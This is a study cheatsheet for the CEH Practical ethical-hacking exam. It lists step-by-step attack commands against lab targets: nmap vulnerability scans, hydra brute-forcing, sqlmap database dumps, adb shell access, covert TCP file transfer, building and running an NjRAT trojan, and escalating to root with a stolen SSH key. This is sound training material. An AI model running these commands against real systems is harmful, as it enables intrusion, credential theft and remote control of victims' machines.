 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
1.	**Network Scanning & Vulnerability Assessment**
	Find Live hosts (nmap /netdiscover)
	Sudo nmap [IP address] – for exam (CEH Practical)
	Sudo nmap –sC –sV –v –A –p– –O –T4 [IP Address range] – more aggressive deep scanning
	Sudo nmap –sV –script vuln [IP Address] – finding vulnerabilities in a host (-oX save file)
	Sudo nmap –sP 192.168.1.*:- when scanning a large network

	Find open ports & services running on those ports (nmap)
	Sudo nmap –sC –sV –v –p– –T4 [IP Address range]
2.	**Enumeration**
	ftp port 21 – used to transfer files between computers (file sharing)
	check IP to see which is running ftp
	nmap –sC –p 21 [IP address]
	ftp [IP] :- you need to bruteforce the password login credentials using hydra tool
	hydra –L username.txt –P password.txt [IP address] ftp (  the lists of password & usernames are given in the exam)
	login ftp [IP address]
	enter password and username from the one that you brute forced
	ftp>ls
	ftp> get secret.txt (used to download the file into your local machine)
	root@attacker:~#ls
root@attacker:~#cat secret.txt (to view the file contents)

	SNMP port 161– used to monitor and manage network devices e.g. routers, switches, servers etc.
	Nmap –sP [IP /24]
	Nmap –sU [IP Address] (scan for UDP ports on the target machine) 
	snmp-check [ip address] NB take note of the UDP port to listen to)
	check NSE scripts online on nmap.org
	nmap –sU –p 161(UDP port) –script=snmp-processes [IP Address] ( finding running process using nmap
	msfconsole (start Metasploit to find valid strings)
	msf5>search snmp
	msf5>use auxiliary/scanner/snmp/snmp_login
	msf5 auxiliary(scanner/snmp/snmp_login)> show options
	msf5 auxiliary(scanner/snmp/snmp_login)>set RHOSTS [IP Address]
	msf5 auxiliary(scanner/snmp/snmp_login)>exploit
	SNMP check interfaces
	nmap –sU –p 161(UDP port) –script=snmp-interfaces [IP Address] ( finding running process using nmap
	snmp-check [IP address]
SMB Enumeration (SMB request services from server programs, it’s a protocol that allows apps on a computer read/write files)
	Nmap [target IP] (smb running on port 445)
	Nmap –p 445 --script smb-enum-shares [IP address] (enumerating files) shares files with details permissions
	Connecting GUI method (smb://[IP] on web)
	Nmap –p 445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating users)
	Nmap –p 445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating groups)
	Nmap –sC –sV –A –T4 –p445 [IP Address] (enumerating security levels)
	Nmap –p 445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating services)
	
	Making an RDP session and Enumerate RDP service
	Nmap [Ip address] port 3333 or 3389 is for RDP
	Msfconsole
	msf5> search rdp
	msf5>use auxiliary/scanner/rdp/rdp_scanner
	msf5 auxiliary(scanner/rdp/rdp_scanner)> set RHOSTS [target IP]
	msf5 auxiliary(scanner/rdp/rdp_scanner)>set RPORT 3333
	msf5 auxiliary(scanner/rdp/rdp_scanner)>exploit (detected rdp on ….. confirmed rdp is running)
	hydra –L {path} –P{path} rdp://[IP address] –s 3333 (brute force passwords & save them)
	root@attacker:~# xfreerdp /u:administrator /p:etcect /v:[ip]:3333(create an rdp session) 
	Enumerate NetBIOS port 137(UDP: TCP)/138(UDP)/139(TCP) facilitates and allows computer to connect over the local network, access files & resources such as printers & files
	Check ip first by ip a
	Nmap –sP [IP address]
	Nmap –sV --script nbstat.nse [IP address]

3.	**Hacking Web Application & Android** 
	Wpscan
	Wpscan in Kali Linux Wpscan –h will show you all the commands you can use
	Wpscan –url [copy url http://192.168.0.1] --enumerate u  (u for users) 
	Wpscan –url (or just –u for url) [copy url http://192.168.0.1] --enumerate u vp (vp for vulnerable plugins & u for users) 
	Sudo Wpscan --password-attack xmlrpc –t 20 –U (usernames) –P (password list)  --url http://[IP] --random-user-agent (if necessary)- bruteforce for passwords
	Sqlmap for sql injections–Using DVWA website
	Go to command execution
	Enter an IP address and submit :- [IP] | pwd to see the directory that I am
	UserID enter 1
	Open burp Suite
	Go to terminal in parrot : sqlmap –r req.txt –dbs the file is in desktop
	Sqlmap –r req.txt –D dvwa ( name of the data base )
	Sqlmap –r req.txt –D dvwa --tables --columns   ( Details )
	Sqlmap –r req.txt –D dvwa --dump (contents of the tables)
	Burp Suite
	Check on http requests and proxy (use this to save  cookies as req.txt)
	Android Pentest (ADB) – a tool that bridge the communication between your device and computer ( use windows)
	‘adb devices’ command will show you all the devices connected
	adb connect [IP address]:5555 ( just give any port) 
	adb shell ( you are in the device )
	hit ls to see where you are in the device
	cd sdcard/
	cat secrete.txt
4.	**Traffic Sniffing**
•	Wireshark
Pcap analysis – Filtering packets
o	tcp.flags.syn
o	Follow streams red part is our request and the blue part is the server response
o	To see if there is a txt file – export object got to file, export object of http and save it 
(DOS, DDOS)
5.**	Steganography**
•	SNOW – for hiding and extracting hidden data from a text file
o	Open SNOW.EXE (NB. you have to write in uppercase)–C (compile) –m “this is the secret message” –p ‘’give the password any’’ Secret.txt (this is the secrete file) Hiddensecret.txt (is the file you want to be the output)
o	To extract the hidden file-: SNOW.EXE –C -p “given password any” Hiddensecret.txt and then hit enter.
•	OpenStego – for hiding and extracting hidden data from an image file
o	Open the OpenStego tool
o	There 2 options, Hiding data and extracting the secret
o	Follow options-: they are self-explanatory
o	When extracting data the same. In an exam you can be told to extract a file and you will find a key. Open hashes.com on browser and then retrieve the key
•	Covert – for hiding data in TCP/IP packet headers
o	Download covert_tcp file in parrot
o	Cd Downloads
o	Then ~/Downloads/Covert_tcp $ ls there will be 3 files covert_tcp, covert_tcp.c & secret.txt and then-: rm covert_tcp to remove it in parrot
o	Enter a command: cc –a covert_tcp covert_tcp.c 
o	  ./covert_tcp  –source [IP Addrr e.g. 192.168.1.1] ( source Ip)  –dest [IP Addrr] (destination IP) –source_port 9999 ( set any port) –dest_port 8888 –file secret.txt  -: this is done from source computer
o	./covert_tcp  –source [IP Addrr: 192.168.1.1] ( source Ip)  -source_port 8888 –server –file receive.txt (received file as)
**6.	Cryptography – practice of securing information so that it’s only accessible to authorised users only. The goal is to protect sensitive information**
•	HashMyfiles - calculating and comparing hashes of files
o	Open the tool 
o	Drag and drop the files to the HashMyfiles application
o	The change in the background colour may mean that the data has been tempered with or the data in the files is the same
•	Cryptool – encrypting and decrypting of hex data – by manipulating key length
o	Open the app and open file
o	Go to analysis and then symmetric – RC4, a window pops up change the key length maybe to 16bit depends with the qns
•	BCTextEncoder -  encoding and decoding text in file .hex 
o	Open the app
o	Enter passwords to encode the text to hex format
o	To decrypt the hash go to hashes.com online and paste the hash key
•	Crypto Forge – encrypting and decrypting the files
o	Select file & right click
o	Select encrypt. To decrypt the hash go to hashes.com online and paste the hash key
•	Veracrypt – hiding and encrypting the disk partitions
o	Open app and hit create volume option
o	Create an encrypted file container
o	Hidden volume then normal mode then next & select folder then C:\ then file name NB mouse hover hover
o	Go to  App, select mount to retrieve information of the hidden partition, this is do  
7.	**RAT – Remote Access Trojans (ProRat & NjRAT) **
o	If you try and you are getting a response “no connection” it means maybe you have chosen the wrong machine to target or he port you have selected is the wrong one. Or the server is of different tool and you are using a different tool.
o	Using ProRat you open it using attacker machine using the IP address of the victim machine use the default port
o	Click connect and insert password. The password is provided if ProRat is used but if there is no password it means you use either HTTP RAT or NjRAT and you brute force.
o	Click on search files, copy the location and download the file.
o	You can make use of the File Manager option that is GUI
USING NjRAT
o	Using windows 11 as attacker and windows server as victim
o	Use the same default port and click start
o	Click on builder and provide the IP of the attacker machine on the host 
o	Click build and it will create server.exe file and save it e.g. on desktop
o	Share the file on the share folder (Desktop)then go to the server victim machine
o	Run the .EXE file 
o	Switch back to attacker ,machine and you can see the session has been opened 
o	You can right click on the session and use even RDP 
8.	**Privilege escalation**
o	ssh user1@[IP Addrr] –p(port) hit Y to agree and then enter the password you are provided or use hydra to brute force the password
o	If you hit the command whoami it shows you the user
o	 Sudo –L it shows you which users are there 
o	Go to the desired directory and do ls then it shows you the file, if you hit cat flag.txt you want to retrieve info in the file
o	Sudo –u user2 /bin/bash now you are logged in as user2 then go to the desired directory
o	This is horizontal privilege escalation
Escalate to root user
o	ls la shows all users
o	cd /root (access denied)
o	cd .ssh
o	ls
o	cat id_rsa you get ssh private key an copy 
o	nano id_rsa and then paste the key (in our local machine)
o	chmod 600 id_rsa (give permission to this file)
o	ssh root@[target IP] –p (port) –i  id_rsa
o	ls 
o	cat flag.txt
Nikto- nikto –h http://[IP Address]:80 (you can run on port 80)
